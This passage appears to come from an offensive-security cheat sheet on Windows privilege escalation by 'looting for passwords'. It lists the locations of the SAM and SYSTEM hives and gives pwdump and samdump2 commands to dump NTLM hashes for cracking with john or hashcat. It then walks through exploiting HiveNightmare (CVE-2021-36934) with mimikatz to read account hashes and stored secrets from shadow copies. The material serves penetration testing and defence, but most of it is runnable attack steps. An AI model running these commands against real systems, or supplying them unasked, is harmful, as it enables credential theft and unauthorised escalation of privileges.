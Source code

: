 ```
```

## EoP - Looting for passwords

### SAM and SYSTEM files

The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

```
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Generate a hash file for John using `pwdump` or `samdump2`.

```
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Either crack it with `john -format=NT /root/sam.txt`, [hashcat](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md#hashcat) or use Pass-The-Hash.

### HiveNightmare

> CVE-2021–36934 allows you to retrieve all registry hives (SAM,SECURITY,SYSTEM) in Windows 10 and 11 as a non-administrator user

Check for the vulnerability using `icacls`

```
C:\Windows\System32> icacls config\SAM
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- this is wrong - regular users should not have read access!
```

Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.

```
mimikatz> token::whoami /full

# List shadow copies available
mimikatz> misc::shadowcopies

# Extract account from SAM databases
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# Extract secrets from SECURITY
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```
